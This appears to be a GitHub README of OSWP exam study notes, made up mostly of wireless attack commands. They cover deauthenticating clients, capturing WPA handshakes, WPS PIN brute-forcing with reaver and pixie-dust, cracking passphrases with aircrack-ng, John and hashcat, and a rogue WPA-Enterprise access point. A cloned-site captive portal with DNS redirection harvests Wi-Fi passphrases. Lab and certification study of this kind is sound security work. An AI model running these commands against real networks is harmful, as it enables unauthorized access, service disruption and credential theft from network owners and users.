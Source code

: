 # OSWP

## Aircrack-ng 
```
sudo airmon-ng check
sudo airmon-ng check kill

sudo /usr/sbin/airmon-ng
sudo airmon-ng start wlan0
sudo airmon-ng start wlan0 [channel #]
sudo airmon-ng stop wlan0

iw wlan0 info
iwconfig
ifconfig

```

## Airodump-ng 
### WEP, WPA/WPA2
#### Don't forget to specify interface
```
sudo airodump-ng [interface] -channel [#] --bssid [BSSID] --essid [ESSID] -w [file.cap]
sudo airodump-ng wlan0mon -c 2
sudo airodump-ng wlan0mon -c 3 --bssid 34:08:04:09:3D:38 -w 1.cap
```
|CMD|DESC|
|-----|-----|
|-w|output filename| 
|--bsssid|specific BSSID|
|--essid|specific client ESSID|
|-c|channel|
|-g|GPS|
|--ivs| Interval Vectors
|-R|Regular Expression|

## Aireplay-ng
#### Set card to channel [#]
```
sudo airmon-ng start wlan0 # 
```
### Deauth
```
sudo aireplay-ng [attack type] [# of deauths] -a [BSSID] -c [clientBSSID] [interface]
sudo aireplay-ng -0 10 -a 34:08:04:09:3D:38 -c 35:08:04:09:3D:40 wlan0mon
```
|CMD|DESC|
|-----|-----|
-0 |# deauths
0 | continuous
-a|BSSID
-c|client MAC

## WPS Attack
```
sudo wash -i wlan0mon
-5 for 5GHz
airodump-ng --wps wlan0mon
sudo reaver -b 6C:5A:B0:5D:A6:A6 -i wlan0mon -v
sudo reaver -b 6C:5A:B0:5D:A6:A6 -i wlan0mon -v -K
sudo reaver --interface wlan0mon --bssid 6C:5A:B0:5D:A7:DC --channel 9 -vv -N -O reaver_output.pcap --pixie-dust 1

sudo apt install airgeddon
source /usr/share/airgeddon/known_pins.db
echo ${PINDB["0013F7"]}
```
## Aircrack-ng
```
aircrack-ng -w [path to wordlist] -e [ESSID] -b [BSSID] [file.cap]
aircrack-ng -w /usr/share/john/password.lst -e wifu -b 34:08:04:09:3D:38 wpa-01.cap
```
### John the Ripper
```
sudo nano /etc/john/john.conf
john --wordlist=/usr/share/john/password.lst --rules --stdout | grep -i Password123
john --wordlist=/usr/share/john/password.lst --rules --stdout | aircrack-ng -e wifu -w - ~/wpa-01.cap

john --format=netntlm timothy --wordlist=/usr/share/wordlists/rockyou.txt
```
### Hashcat
```
/usr/lib/hashcat-utils/cap2hccapx.bin wifu-01.cap output.hccapx
hashcat -m [hashtype] [hash] [dictionary]
hashcat -m 2500 output.hccapx /usr/share/john/password.lst

```
## Useful Linux Commands
```
scp kali@192.168.10.94:/home/kali/1.cap-01.cap .
gzip -d file .gz
```
## NMAP
```
sudo nmap -sT -p- 10.10.8.8
-A = everything
-sS = SYN scan
-sT = scan TCP
-sU = scan UDP
-p- = all ports
```
## NetCat
```
sudo nc -z -v 10.10.8.8
-z = open ports
-v = verbose
```
## Attacking WPA Enterprise
```
sudo airodump-ng wlan0mon
sudo apt install freeradius
nano ca.cnf, nano server.cnf
make
sudo apt install hostapd-mana
mana.conf
mana.eap_user
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```
## Certs
```
openssl x509 -in CERT_FILENAME -noout -enddate
openssl x509 -inform der -in CERTIFICATE_FILENAME -text
make-ssl-cert generate-default-snakeoil --force-overwrite
```

## Captive Portal
```
sudo apt install apache2 libapache2-mod-php
wget -r -l2 https://www.megacorpone.com
/var/www/html/portal/index.php
sudo cp -r ./www.megacorpone.com/assets/ /var/www/html/portal/
sudo cp -r ./www.megacorpone.com/old-site/ /var/www/html/portal/
/var/www/html/portal/login_check.php

sudo ip addr add 192.168.87.1/24 dev wlan0
sudo ip link set wlan0 up
sudo apt install dnsmasq
mco-dnsmasq.conf
sudo dnsmasq --conf-file=mco-dnsmasq.conf
sudo tail /var/log/syslog | grep dnsmasq
sudo netstat -lnp

sudo apt install nftables
sudo nft add table ip nat
sudo nft 'add chain nat PREROUTING { type nat hook prerouting priority dstnat; policy accept; }'
sudo nft add rule ip nat PREROUTING iifname "wlan0" udp dport 53 counter redirect to :53

/etc/apache2/sites-enabled/000-default.conf > mod_rewrite/mod_alias
sudo a2enmod rewrite
sudo a2enmod alias
systemctl restart apache2

/etc/apache2/sites-enabled/000-default.conf > SSL
sudo a2enmod ssl
sudo systemctl restart apache2

nano mco-hostapd.conf
sudo hostapd -B mco-hostapd.conf
sudo tail -f /var/log/syslog | grep -E '(dnsmasq|hostapd)'
sudo tail -f /var/log/apache2/access.log
sudo cat /tmp/systemd-private-0a505bfcaf7d4db699274121e3ce3849-apache2.service-lIP3ds/tmp/passphrase.txt
```
## Manual Network Connections
```
wpa_supplicant.conf
sudo wpa_supplicant -i wlan0 -c wifi-client.conf
sudo dhclient wlan0
sudo iw list
sudo ip link set wlan0 up
sudo ip addr add 10.0.0.1/24 dev wlan0
dnsmasq.conf
sudo dnsmasq --conf-file=dnsmasq.conf
sudo tail /var/log/syslog | grep dnsmasq
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
sudo apt install nftables
sudo nft add table nat
sudo nft 'add chain nat postrouting { type nat hook postrouting priority 100 ; }'
sudo nft add rule ip nat postrouting oifname "eth0" ip daddr != 10.0.0.1/24 masquerade
sudo hostapd hostapd.conf

